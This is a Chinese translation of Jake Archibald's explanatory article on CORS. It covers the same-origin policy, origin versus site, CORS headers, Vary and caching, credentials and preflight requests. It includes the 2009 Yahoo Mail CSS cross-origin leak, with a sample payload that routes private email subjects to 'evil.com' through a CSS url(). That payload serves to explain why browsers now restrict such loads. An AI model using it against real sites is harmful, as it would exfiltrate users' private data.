

# 赢在 CORS

CORS (即跨域资源共享)很难，难在它是浏览器获得信息的一部分，更难在它是30多年前第一个 web 浏览器问世时就具有的一系列行为。
从那时开始 CORS 持续发展，添加新特性、改进优化默认配置、在不过多影响 web 的前提下修复已有错误等等。

因此，在这里我分享一下我所知道的 CORS。为了增加互动性，我开发了一个有趣的APP--[`CORS游乐场`](https://jakearchibald.com/2021/cors/playground/):


你可以直接点进这个 Web APP 先做一番体验。后面文章里涉及的各种实例链接都会链接到这个 Web APP 以作验证。

## 无需 CORS 也可跨域

> I'd like to propose a new, optional HTML tag: IMG. Required argument is SRC="url".（我提议一个新的 HTML 标签--IMG，必选参数为 SRC=“url”） – Marc Andreessen in 1993

浏览器能够访问其他网站的图片资源已经有近30年的历史了，完全不需要其他网站的授权允许。并且不仅仅只限于图片资源。还有以下这些：

```html
<script src="…"></script>
<link rel="stylesheet" href="…" />
<iframe src="…"></iframe>
<video src="…"></video>
<audio src="…"></audio>
```

这些api允许你向另一个网站发出请求，并以特定的方式处理响应，而无需其他网站的同意。

直到1994年 HTTP cookie 的出现，情况变得复杂起来。HTTP cookie 成为我们所谓的身份凭证的一部分，其中还包括TLS客户端证书(不要与服务器证书混淆)，以及当使用 HTTP 认证时 Authorization 请求头中的状态（如果没听过这个，没关系，it's shite）。

身份凭证允许服务器跨多个请求依然维护特定用户的状态。这也就是为啥Twitter可以显示你的消息，银行可以显示你的帐户。

当你使用上述 api 方法之一请求其他站点内容时，它将同时发送那个站点的身份凭证。多年来，这造成了大量的安全问题。

```html

```

如果上面的图片加载，我得到一个 load 事件。如果它没有加载，我将得到一个 error 事件。如果这取决于你是否登录，这会告诉我很多关于你的信息。如果不同用户图片的宽度和高度不同，我还可以读取图片的宽度和高度，**那这就会告诉我更多关于你的信息**。

对于 CSS，情况就更糟了，它有更多的功能，而且不会在解析错误时立即失败。2009年，雅虎邮箱被一个相当简单的漏洞攻击就是利用了 CSS 的这个漏洞。攻击者向用户发送一封主题包括 ');} 的电子邮件，随后又发送另一封主题包括 {}html{background:url('//evil.com/? :

```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```

这意味着用户的一些私人邮件数据像被被夹三明治一样夹在 CSS 中被解析为 CSS 片段。然后，攻击者再诱导用户访问包含以下内容的页面:

```html
<link rel="stylesheet" href="https://m.yahoo.com/mail" />
```

而这个页面已经加载过 `yahoo.com` 的 cookie，CSS 解析并发送私人信息到上面 CSS 中的 `evil.com` 服务器。惊不惊喜?！

这还只是冰山一角。从浏览器漏洞到 CPU 漏洞，这些资源泄漏问题让我们头疼了几十年。

## “关进小黑屋”

很明显，上面的内容是 Web 设计中的一个错误，因此我们不再创建新的类似的 api。与此同时，在过去的几十年里，我们一直在尽我们所能地修补这些问题:

- 来自另一个 origin 的 CSS (下面我会给出 origin 的定义)现在需要带有 CSS `Content-Type`字段。不幸的是，很难对脚本和图片或[quirks模式](https://en.wikipedia.org/wiki/Quirks_mode)页面的CSS强行同样的要求，因为可能涉及到对web重要部分的破坏。
- 设置[头部字段`X-Content-Type-Options: nosniff`](https://fetch.spec.whatwg.org/#x-content-type-options-header) 让服务器说“喂!如果我没有发送正确的`Content-Type`的话,请不要让内容被解析为CSS或JS”
- 再后来，nosniff 规则被扩展,用来防止来自其他来origin的特定no-CORS响应类型，如HTML、JSON和XML (SVG除外)。这种保护被称为CORB。
- 再到最近，从站点A向站点B发送请求时，我们不再需要发送cookie了，除非站点b使用[SameSite cookie属性](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)。如果没有cookie，网站通常会返回“登出”界面，不会展示私人数据。
- Firefox和Safari又更进一步，尝试完全隔离站点（尽管目前两者的工作方式有很大不同）。

### 同源策略

早在1995年，Netscape 2 就推出了两个让人眼前一亮的新功能: LiveScript（也就是后来的 JavaScript ）和 HTML frames。Frame 允许让你将一个页面嵌入到另一个页面中，而 LiveScript 则同时可以与这两个页面交互。

Netscape 意识到这会带来安全问题。你肯定不希望一个非法的页面能够读取你银行页面的 DOM 吧？！因此他们决定只有在两个页面具有相同的 origin 时才允许跨框架的脚本(cross-frame scripting)。



他们的想法是，拥有相同 origin 的网站那么更有可能拥有相同的所有者。但这并不是完全正确的，因为许多网站用url来划分内容，比如 `http://example.com/~jakearchibald/`，但这条分割线必须在某个地方画出来。

从这一点上说，那么赋予资源信息可获取仅限于相同的 origin。其中包括了在1999年首次出现于IE5中的 `new ActiveXObject('Microsoft.XMLHTTP')`，后来它成为了 web 标准 `XMLHttpRequest`

### Origin 与 Site 对比

有些网页功能并不处理 origin，它们处理的是site。例如，`https://help.yourbank.com`和`https://profile.yourbank.com`是不同的 origin，但它们是同一个 site。Cookies 是 site 层面上最常见的功能，你也可以创建 Cookie 发送到 `yourbank.com` 所有子域。

但是浏览器又是如何知道 `https://help.yourbank.com` 和 `https://profile.yourbank.com` 是同一个 site 的一部分，而 `https://yourbank.co.uk` 和 `https://jakearchibald.co.uk` 是不同的 site 呢?它们都是由 `.` 分割出了3部分，都是后两部分是相同的，为何前者是而后者不是呢?

答案是在每个浏览器中都有一系列算法，但在2007年，Mozilla 将这些算法换成了列表。这个列表目前被作为一个独立的社区项目维护，称为公共后缀列表（即[public suffix list](https://publicsuffix.org/)），所有浏览器以及许多其他项目都在使用它。

如果有人吹牛说他理解没有UI提示的url的安全含义，请问问他是不是能背诵出公共后缀列表的所有9000多个条目。

`https://app.jakearchibald.com` 和 `https://other-app.jakearchibald.com` 是同一个 site 的一部分，而 `https://app.glitch.me` 和 `https://other-app.glitch.me` 是不同的 site 。这种情况出现是因为 `glitch.me` 在公共后缀列表上，而 `jakearchibald.com` 不在。仔细一想确实是这么回事，因为 `glitch.me` 的子域可以由不同的人拥有,而 `jakearchibald.com`的所有子域由我独有。

## “再放出小黑屋”

现实就是，我们已经有了像 `` 这样的api，它可以访问来自其他origin的资源，但对于这种资源的请求响应信息是有限制的(现在看来，限制还不够)。然而我们还有一些强大的api，比如跨框架脚本和 XMLHttpRequest，它们也只工作于相同的 origin。

那我们怎样才能让这些更强大的 api 跨域工作呢?

### 移除身份凭证？

假设我们提供了一个配置项，请求发送时没有身份凭证。响应将是'登出'界面，所以它不会包含任何私人数据，可以毫不担心地显示，对吗?

不幸的是，有很多 HTTP 终端使用浏览器证书以外的东西来“保护”自己。

很多公司的内部网络会一厢情愿的认为它们是“私有的”，因为它们只能被特定的网络访问。一些路由器和物联网设备被限制在你的家庭网络中，所以也单方面假设只会被善意的人访问。而有一些网站又可以根据访问IP地址提供不同的内容。

所以，如果你在家里访问我的网站，我可以开始请求常见的主机名和IP地址，寻找没有安全防护机制的物联网设备，寻找使用默认密码的路由器，这些都真实发生的话可能会让你苦不堪言，而所有这些问题都源于没有浏览器身份凭证。

移除身份凭证是解决方案的一部分，但仅靠它是不够的。没有办法知道一个资源包含私有数据，所以我们需要一些方法让资源自己来声明“嗯，没事，可以让其他站点读取我的内容”。

### 独立文件配置？

origin 可能有一些特殊的资源详细说明了关于跨域文件访问的权限。这也就是[Flash 的安全模型](https://www.adobe.com/devnet-docs/acrobatetk/tools/AppSec/xdomain.html)。Flash 在站点的根目录中寻找一个 `/crossdomain.xml` ，看起来像这样:

```xml
<?xml version="1.0"?>
<!DOCTYPE cross-domain-policy SYSTEM "https://www.adobe.com/xml/dtds/cross-domain-policy.dtd">
<cross-domain-policy>
<site-control permitted-cross-domain-policies="master-only" />
<allow-access-from domain="*.example.com" />
<allow-access-from domain="www.example.com" />
<allow-http-request-headers-from domain="*.adobe.com" headers="SOAPAction" />
</cross-domain-policy>
```

这里有几个问题:

- 它改变了整个origin的行为。你可以想象出一种类似的允许你为特定资源指定规则的格式，但是 `/crossdomain.xml` 资源将开始变得非常大。
- 最终变成两个请求，一个是针对 `/crossdomain.xml` 的，另一个是针对实际资源的。`/crossdomain.xml` 变得越大，问题就越大。
- 对于由多个团队构建的大型站点，你最终会遇到 `/crossdomain.xml` 的所有权问题
  
### 资源内配置？

为了减少请求的数量，可在资源本身内授予配置。这项技术是 W3C 语音浏览器工作组在2005年提出的，使用XML处理指令:

```html
    <?access-control allow="*.example.com" deny="*.visitors.example.com"?>
```

但是如果资源不是 XML 呢?嗯，那就需要用不同的配置形式了。

这就是 frame 与 frame 之间的交互。双方可以通过配置 `postMessage` 通信，并且可以声明他们之间通信的 origin。

但是如何访问资源的原始字节呢?在这种情况下，对于配置使用特定于资源的元数据是没有意义的。此外，HTTP已经为资源元数据占据了一席之地……

### HTTP header 配置

语音浏览器工作组的提议推广了 HTTP header 的使用，也就是跨源资源共享(CORS)。

```javascript
Access-Control-Allow-Origin: *
```

## 发起一个CORS请求

大多数现代web特性默认CORS请求，比如`fetch()`。例外情况是那些为了支持旧特性而设计的一些现代特性，那些不使用 CORS。例如，`<link rel="preload">`。

不幸的是，对于什么是什么不是 CORS 请求，并没有简单的规则。例如:

```html
<!-- Not a CORS request -->
<script src="https://example.com/script.js"></script>
<!-- CORS request -->
<script type="module" src="https://example.com/script.js"></script>
```

最好的方法是查看 DevTools 的 network。在 Chrome 和 Firefox 中，跨源请求发送时带有 [`Sec-Fetch-Mode` 头部](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Mode)，它会告诉你这是否是一个 CORS 请求。不过，Safari还没有实现这一点。

[在CORS游乐场尝试一下吧](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=)——当你发出请求时，它将记录服务器接收到的头信息。如果你使用 Chrome 或 Firefox，你会看到 `Sec-Fetch-Mode` 被设置为 `cors`，以及一些其他有趣的`Sec-` headers。然而，如果你[发出一个 no-CORS 请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=&responseAllowCredentials=&responseExposeHeaders=)，`Sec-Fetch-Mode` 将是 `no-cors`。

如果一个HTML元素导致 no-CORS 获取，你可以使用`crossorigin`属性名将其切换为CORS请求。

```html

<script crossorigin src="…"></script>
<link crossorigin rel="stylesheet" href="…" />
<link crossorigin rel="preload" as="font" href="…" />
```

当你将这些切换到 CORS 时，你可以获得更多跨域（cross-origin）资源的信息:

- 你可以将 `` 绘制到 `<canvas>` 并读取像素。
- [在特定的奇怪情况下](https://github.com/whatwg/html/issues/2440)，你也可以获得更详细的脚本堆栈跟踪信息。
- 你还可以获得例如[子资源完整性](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity#subresource_integrity_with_the_%3Cscript%3E_element)之类的额外特性。
- 你也能通过 `link.sheet` 查看解析过的样式表。

对于`<link rel="preload">`，如果最终请求也使用 CORS，那么你需要确保它使用 CORS，否则它将无法在预加载缓存中匹配，最终变成了两个请求。

## CORS 请求

默认情况下，跨域（cross-origin3） CORS 请求是不带身份凭证的。因此，没有cookie，没有客户端证书，没有`Authorization` header，响应上的`Set-Cookie`将被忽略。然而，同源（same-origin ）请求包括身份凭证。

随着CORS的发展的，[`Referer`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer)头信息经常被浏览器扩展或被所谓的“互联网安全”软件欺骗或删除，所以一个新的头信息—— `Origin` 被创建，它提供了发出请求的页面的 origin。

`Origin` 是挺用的，所以它被添加到许多其他类型的请求中，比如 WebSocket和 `POST` 请求。浏览器也尝试过将它添加到常规的GET请求中，但一些网站因此遭到破坏，原因是这些网站认为 `Origin` 头的存在意味着它是一个CORS请求😬。也许有一天这会实现吧。

[在CORS游乐场尝试一下吧](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=)——当你发出请求时，它将记录服务器收到的头信息，其中包括`Origin`。如果你[发出一个no-CORS `GET`请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=&responseAllowCredentials=&responseExposeHeaders=)，Origin 头不会被发送，但如果你[发出一个no-CORS `POST`请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=POST&requestUseCORS=&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=&responseAllowCredentials=&responseExposeHeaders=)，它会再次出现。

## CORS 响应

为了通过 CORS 检查并让其他 origin 获得响应权限，响应必须包含以下头:

```javascript
Access-Control-Allow-Origin: *
```

`*` 可以由请求的`Origin`头的值替换，但是 `*` 适用于任何请求的 origin，前提是请求发送时没有身份凭证(稍后会详细介绍)。与所有头文件一样，头文件名称不区分大小写，但值是区分大小写的。

在CORS游乐场尝试一下吧!用下面的值试试:

- `*`.
- `https://jakearchibald.com`.
  
然而下面的方法将不起作用，因为只接受 `*` 或者与请求的`Origin`头信息大小写完全匹配的值:

- `https://jakearchibald.com/` -末尾的/表示它与 Origin 头文件不匹配。
- `https://JakeArchibald.com` -不匹配`Origin` header。
- `https://jakearchibald.*`—通配符在这里不是这样使用的。
- `https://jakearchibald.com, https://example.com`—只能提供一个值。

一个有的效值可以让其他的origin访问响应body，也可以访问header的以下信息:

- `Cache-Control`
- `Content-Language`
- `Content-Type`
- `Expires`
- `Last-Modified`
- `Pragma`

响应可以包含另一个头信息，`Access-Control-Expose-Headers`，以显示额外的头信息:

```javascript
Access-Control-Expose-Headers: Custom-Header-1, Custom-Header-2
```

匹配是不区分大小写的，因为头名称是不区分大小写的。你也可以用:

```javascript
Access-Control-Expose-Headers: *
```

如果请求是在没有身份凭证的情况下发送的(这种情况稍后会详细介绍)，则公开(几乎)所有的头信息。

`Set-Cookie` 和 `Set-Cookie2` (失败的 `Set-Cookie` 的“续集”)头永远不会暴露，以避免跨站点泄露 cookie。

在CORS游乐场尝试一下吧:

- [暴露特定的header](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=foo%2C+date)
- [暴露所有header](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=*)

## CORS 与 缓存

CORS请求不会绕过缓存。Firefox会根据请求是否有身份凭证来划分HTTP缓存，Chrome也计划这样做，但你可能需要担心的是CDN缓存。

### 向长缓存资源添加 CORS

如果你的资源具有较长的缓存生命周期，为了方便用户获取新内容那么你可能习惯于在内容更改时更改文件名。同样的事情也适用于头部的变化。

如果你将`Access-Control-Allow-Origin: *`添加到具有较长的缓存生命周期的资源中，为了让客户端再次回到你的服务器并获取新的头部，那么请一定要确保更改URL，而不是重用一个没有头部的缓存版本。

如果你觉得有兴趣的话，那么我有一篇详细介绍[长期缓存](https://jakearchibald.com/2016/caching-best-practices/)的文章。

### 有条件地使用 CORS header

如果一个资源在使用Cookie请求时包含私有数据，而你却只想暴露除了Cookie之外的其他数据。这种情况下如果请求没有Cookie头，那么最好只包含`Access-Control-Allow-Origin: *` header。这可以避免CDN或浏览器缓存重用包含私有数据的响应时的意外情况:

1. 浏览器没用 CORS 获取一个资源的话，那么这个请求会包含cookie。
2. 这个重用的响应(包含私有数据)进入缓存。
3. 浏览器通过 CORS 对相同的资源进行获取，因此它不包括cookie。
4. 缓存会返回与之前相同的响应数据。

在本例中，浏览器没有随第二个请求一起发送cookie，但它收到了一个响应，其中包含了与前一个使用 cookie 请求发送的私有数据。你肯定不希望它通过CORS检查并暴露私有数据。

但是上面的错误只会在头文件中缺少另一条重要指令的情况下发生:

```javascript
Vary: Cookie
```

这意味着“如果Cookie头的状态与原始请求匹配，那么只能提供一个缓存版本的数据”。实际上，不管请求是否有 Cookie 头，你都应该在所有对URL的响应中包括它。

我还看到一些服务要根据请求看起来是否像 CORS 请求（类似以是否有 Origin header这种粗糙的判断方式） 然后有条件地添加 `Access-Control-Allow-Origin: *`。完全没必要搞这么复杂，但如果你坚持这样做，那么更重要的是要正确的使用 `Vary` 头文件:

```javascript
Vary: Origin
```

**很多流行的“云存储”主机都犯了这个错误**。它们有条件地添加 CORS 头，而不包括 Vary 头。不要相信他们的默认设置，要检查他们是否真的正确。

`Vary` 可以作为许多头文件的条件使用，所以如果你要根据 Origin 和 Cookie 头文件是否存在来添加`Access-Control-Allow-Origin: *`，那么使用:

```javascript
Vary: Origin, Cookie
```

## 通过 CORS 暴露资源是否安全?

如果一个资源从不包含私有数据，那么在它上面加上`Access-Control-Allow-Origin: *`是完全安全的。请加上吧！

如果一个资源有时包含依赖于Cookie的私有数据，只要你还包含`Vary: Cookie`头，那么添加`Access-Control-Allow-Origin: *`也是安全的。

最后，如果你使用诸如发送者的IP地址之类的东西来“保护”数据，亦或者假设你的服务器被限制在一个“内部”网络是安全的，使用`Access-Control-Allow-Origin: *`根本就不安全。然并卵，不要这样做!这些数据实际上并不安全。平台应用程序能够获取这些数据，并可以把数据发送到任何他们想要的地方。

## 添加身份凭证

缺省情况下，跨域 CORS 请求是不带身份凭证的。但是，各种 api 又允许你将身份凭证添加回来。

通过fetch：

```javascript
const response = await fetch(url, {
credentials: 'include',
});
```

或者通过HTML elements:

```html

```

这些让配置变得更丰富。同时，响应必须包含:

```javascript
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://jakearchibald.com
Vary: Cookie, Origin
```

如果 CORS 请求包含身份凭证，则响应必须包含 `Access-Control-Allow-Credentials: true` 头，并且 `Access-Control-Allow-Origin` 的值必须反映请求的 `Origin` 头(如果请求有身份凭证，那么值就不可以是 `*` 了)。

公开私人数据是有风险的，而且应该只针对于你真正信任的origin。

围绕 cookie 的相同 site 规则仍然适用，我们在 Firefox 和 Safari 中看到的那种隔离也同样适用。但这些只对跨站点（cross-site）有效，而不是跨域（cross-origin）。

如果你的响应可以以任何方式缓存，在这种情况下使用 `Vary` 头是很重要的。不仅仅是通过浏览器，还有像CDN这样的中间层。使用 `Vary` 来告诉浏览器和中间层，响应取决于特定的请求头，否则用户可能会得到一个错误的`Access-Control-Allow-Origin` 值的响应。

[在CORS游乐场尝试一下吧](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=1&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=https%3A%2F%2Fjakearchibald.com&responseAllowCredentials=true&responseExposeHeaders=&responseCookieName=hello&responseCookieValue=world)——这个请求满足所有的标准，也设置了一个 cookie。在你发出第二次请求后，你将看到cookie被发回。

## 非简单请求以及预检请求

目前为止，请求响应是可选择性的暴露数据。所有的请求都被假定是安全的，因为它们没有做任何不寻常的事情。

```javascript
fetch(url, { credentials: 'include' });
```

上面没有什么不寻常的地方，因为请求实际上与``可以做的事情非常相似。

```javascript
fetch(url, {
method: 'POST',
body: formData,
});
```

上面也没有什么不寻常的地方，因为请求实际上与`<form>`可以做的事情也很相似。

```javascript
fetch(url, {
method: 'wibbley-wobbley',
credentials: 'include',
headers: {
    fancy: 'headers',
    'here-we': 'go',
},
});
```

好吧，这个就很不简单了吧。

这不是‘非简单’，那是相当滴复杂啊！从高的层面来看，如果它是其他浏览器api通常不会发出的请求，那么它就是'非简单'的。而在较低的层面上看，如果请求方法不是GET、HEAD或POST，或者它包含不属于[安全列表](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)的头或头值，则将其视为'非简单'。事实上，我最近对[规范的这一部分做了修改](https://github.com/whatwg/fetch/pull/1312)，在这个列表中添加了特定的 `Range` 头部。

如果你试图提出非简单请求，浏览器首先会询问对方是否可以发送请求。这个过程叫做预检。

### 预检请求

在发出主请求之前，浏览器使用 `OPTIONS` 方法向目标 URL 发出一个预检请求，头部如下所示:

```javascript
Access-Control-Request-Method: wibbley-wobbley
Access-Control-Request-Headers: fancy, here-we
```

- `Access-Control-Request-Method` -主请求将使用的HTTP方法。即使是普通方法，也是包括在内的。
- `Access-Control-Request-Headers` -主请求将使用的非简单头信息。如果没有非简单头信息，则不发送此报头。

即使在主请求有身份凭证的情况下，预检请求也是不会包括身份凭证的。

### 预检响应

服务器的预检响应表明了它是否愿意让主请求继续进行，使用头信息如下:

```javascript
Access-Control-Max-Age: 600
Access-Control-Allow-Methods: wibbley-wobbley
Access-Control-Allow-Headers: fancy, here-we
```

- `Access-Control-Max-Age` -缓存这个预检响应的秒数，避免短期重复预检请求(在过期前再次预检请求这个URL时直接返回缓存响应)。缺省值是5秒。有些浏览器对此有上限。在Chrome中是600(10分钟)，在Firefox中是86400(24小时)。
- `Access-Control-Allow-Methods` -允许的非简单方法。这可以是一个逗号分隔的列表，值是区分大小写的。如果主请求发送时没有身份凭证，则可以使用 `*` 来允许(几乎)任何方法。但出于安全考虑，你不能允许 `CONNECT` 、`TRACE` 或 `TRACK`，因为它们都在🔥💀[FORBIDDEN LIST](https://fetch.spec.whatwg.org/#forbidden-method)💀🔥列表上。
- `Access-Control-Allow-Headers` -允许的非简单头部。这可以是一个逗号分隔的列表，值是不区分大小写的，因为头名称是不区分大小写的。如果发送主请求时没有身份凭证，则可以使用 `*` 来允许任何不在🔥💀[DIFFERENT FORBIDDEN LIST💀](https://fetch.spec.whatwg.org/#forbidden-header-name)🔥列表上的报头。

出于安全考虑，🔥💀[FORBIDDEN LIST](https://fetch.spec.whatwg.org/#forbidden-header-name)💀🔥列表中的头是必须完全由浏览器控制的头。它们会自动(默默地)从CORS请求和`Access-Control-Allow-Headers`中剥离出来。

预检响应还必须通过常规的CORS检查，因此它需要`Access-Control-Allow-Origin`.如果主请求与身份凭证一起发送，则还需要`Access-Control-Allow-Credentials:true`，并且状态码必须在200-299(包括200-299)之间。

如果预期的方法与所有预期的头都被允许的话，那么主请求将继续进行。

对了，预检只会批准你的请求。最终响应还必须通过CORS检查。

状态代码限制会产生一些问题。如果你有像/artists/Pip-Blom这样的API，如果数据库中没有“Pip Blom”，你可能想返回一个404。你希望得到的是404状态码(和响应body)，这样客户端就知道他们请求的是“未找到”，而不是其他类型的服务器错误。但是如果请求需要预检，即使最终响应将是404，预检响应也只会返回200-299状态码。

有一个Chrome bug。
在写这篇文章之前，我并不知道[Chrome有这个bug](https://bugs.chromium.org/p/chromium/issues/detail?id=1228178)。

HTTP 方法名在某种程度上是区分大小写的。我说'某种程度'是因为如果你使用的方法名是不区分大小写的匹配`get`, `post`, `head`, `delete`, `options`，或`put`，那么它会自动大写，但其他方法保持你使用的大小写。

不幸的是，Chrome希望这个值在`Access-Control-Allow-Methods`中大写。如果你的方法是`Wibbley-Wobbley`,预检的回应是:

```javascript
Access-Control-Allow-Methods: Wibbley-Wobbley
```

它会在Chrome中检查失败。而:

```javascript
Access-Control-Allow-Methods: WIBBLEY-WOBBLEY
```

将会通过在 Chrome 中的检查(它会用 Wibbley-Wobbley 方法发出请求)，但在其他遵循规范的浏览器中它将失败。为了解决它，你可以提供两个方法:

```javascript
Access-Control-Allow-Methods: Wibbley-Wobbley, WIBBLEY-WOBBLEY
```

或者如果它是一个没有身份凭证的请求，就使用 `*`。

好吧，让我们把所有这些放在一起，最后，再在CORS游乐场尝试试吧:

- [一个简单的请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=)。不需要预检请求。
- [一个非简单头部请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=405&preflightAllowOrigin=&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=&requestHeaderName=hello&requestHeaderValue=world)。这会触发预检请求，服务器但不允许请求。
- [同样是一个非简单头部请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=*&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=*&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=&requestHeaderName=hello&requestHeaderValue=world)，但这一次预检请求配置正确，因此请求通过。
- [一个简单 `Range` 头部请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=GET&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=*&preflightAllowCredentials=&preflightAllowMethods=&preflightAllowHeaders=*&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=&requestHeaderName=range&requestHeaderValue=bytes%3D0-)。这与我所做的规范更改有关。当浏览器实现更改时，此请求将不需要预检。它目前在Chrome Canary中实现。
- [一个非简单方法请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=Wibbley-Wobbley&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=*&preflightAllowCredentials=&preflightAllowMethods=Wibbley-Wobbley&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=)。这突出了上面记录的Chrome bug。这个请求在Chrome浏览器中无法通过，但在其他浏览器中可以工作。
- [这又是一个非简单方法请求](https://jakearchibald.com/2021/cors/playground/?prefillForm=1&requestMethod=Wibbley-Wobbley&requestUseCORS=1&requestSendCredentials=&preflightStatus=206&preflightAllowOrigin=*&preflightAllowCredentials=&preflightAllowMethods=Wibbley-Wobbley%2C+WIBBLEY-WOBBLEY&preflightAllowHeaders=&responseAllowOrigin=*&responseAllowCredentials=&responseExposeHeaders=)。这可以解决 Chrome bug。

## 最后

哈哈，你居然坚持看到了最后!不好意思，这篇文章比我预期的要长得多，但我希望它有助于理解整个CORS的事情。

非常感谢Anne van Kesteren、Simon Pieters、Thomas Steiner、Ethan、Mathias Bynens、Jeff Posnick和Matt Hobbs校对、以及对细节完善的帮助。

[原文地址](https://jakearchibald.com/2021/cors/)

[原文在GitHub上查看](https://github.com/jakearchibald/jakearchibald.com/blob/main/static-build/posts/2021/10/cors/index.md)
